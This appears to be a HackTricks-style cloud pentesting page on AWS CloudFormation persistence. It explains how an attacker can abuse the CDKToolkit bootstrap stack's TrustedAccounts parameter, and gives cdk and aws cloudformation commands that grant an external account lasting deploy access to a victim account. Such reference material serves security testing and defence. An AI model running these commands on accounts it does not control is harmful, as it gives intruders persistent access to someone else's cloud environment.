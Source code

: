 # AWS - Cloudformation Persistence

{{#include ../../../banners/hacktricks-training.md}}

## CloudFormation

For more information, access:

{{#ref}}
../aws-services/aws-cloudformation-and-codestar-enum.md
{{#endref}}

### CDK Bootstrap Stack

The AWS CDK deploys a CFN stack called `CDKToolkit`. This stack supports a parameter `TrustedAccounts` which allow external accounts to deploy CDK projects into the victim account. An attacker can abuse this to grant themselves indefinite access to the victim account, either by using the AWS cli to redeploy the stack with parameters, or the AWS CDK cli.

```bash
# CDK
cdk bootstrap --trust 1234567890

# AWS CLI
aws cloudformation update-stack --use-previous-template --parameters ParameterKey=TrustedAccounts,ParameterValue=1234567890
```

{{#include ../../../banners/hacktricks-training.md}}